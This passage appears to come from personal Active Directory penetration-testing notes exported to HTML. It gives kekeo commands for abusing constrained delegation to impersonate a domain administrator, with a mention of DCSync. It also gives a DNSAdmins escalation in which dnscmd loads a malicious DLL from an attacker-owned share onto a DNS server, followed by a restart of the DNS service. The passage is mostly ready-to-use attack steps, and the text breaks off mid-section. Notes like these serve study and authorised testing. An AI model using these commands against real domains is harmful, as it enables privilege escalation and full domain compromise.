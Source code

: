 # Getting TGT for compromised service account (kekeo)
tgt::ask /user:&lt;SERVICE_ACCOUNT&gt; /domain:follow.0xd4y_notes.local /rc4:&lt;NTLM_HASH&gt;

# Using kekeo, get TGS for service on behalf of Domain Administrator
tgs::s4u /tgt:&lt;TGT_FILE&gt; /user:Administrator@follow.0xd4y_notes.local /service:&lt;SERVICE&gt;/&lt;MACHINE&gt;</code></pre><ul id="c120d159-4f65-4dea-a903-785d5479a341" class="bulleted-list"><li style="list-style-type:disc">note you can only specify a service that is allowed by the <code>msDS-AllowedToDelegateTo</code> restriction <mark class="highlight-yellow_background">or a service running under the same account</mark> <ul id="616a20a2-c0ed-4b73-b045-fa2928cb212f" class="bulleted-list"><li style="list-style-type:circle">no validation is performed on SPN</li></ul><ul id="9668e68e-13c5-4d23-9654-4f012160b9a8" class="bulleted-list"><li style="list-style-type:circle">especially useful when the service is running under a machine account (can potentially get access to the ldap service and run a DCSync attack by just impersonating a domain admin!)</li></ul></li></ul><ul id="8dd9d189-51c9-4eca-a127-01c5b508f332" class="bulleted-list"><li style="list-style-type:disc">no need to wait for user to connect to service as you are not extracting their TGT, you are just impersonating them when requesting a TGS </li></ul><h2 id="4738e78c-495b-47ac-a38f-bc43f6102898" class="">DNSAdmins</h2><ul id="cb604866-bd10-4328-89e1-c602051fb9ce" class="bulleted-list"><li style="list-style-type:disc">members of DNSAdmins group can load arbitrary DLLs as system (privileges of dns.exe)</li></ul><ul id="4b1a4188-2417-4b5e-927d-df885cc0a75f" class="bulleted-list"><li style="list-style-type:disc">can load arbitrary DLL to DC </li></ul><ul id="b5e14e42-fb44-48e2-8c0d-327f44e8bf38" class="bulleted-list"><li style="list-style-type:disc">if loading of plugin fails, DNS service will not start</li></ul><ul id="c41e6e19-54f2-4455-ad7e-ee4a284f17ba" class="bulleted-list"><li style="list-style-type:disc">need privileges to restart DNS service<ul id="bd7959d7-6d5f-409c-b2fe-705fcc35ec3e" class="bulleted-list"><li style="list-style-type:circle">by default they are not able to restart DNS service, but some organizations may have it enabled</li></ul></li></ul><ul id="e0eb7ab0-0d00-4e55-9681-98326a5e21ed" class="bulleted-list"><li style="list-style-type:disc">find DNS admins with <code>Get-ADGroupMember -Identity DNSAdmins</code></li></ul><p id="ca8df262-d945-49c7-9c4f-c46479c5a7c0" class=""><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong><strong>Exploitation</strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></strong></p><pre id="47a9aa6f-5201-445c-950f-cf4b2ef28354" class="code"><code># First, serve an arbitrary DLL on some domain-joined workstation that you own
## Then, do the following:
dnscmd &lt;DNS_SERVER&gt; /config /serverlevelplugindll \\&lt;WORKSTATION_YOU_OWN&gt;\malicious.dll

# Restart the DNS service
sc \\&lt;DNS_SERVER&gt; stop dns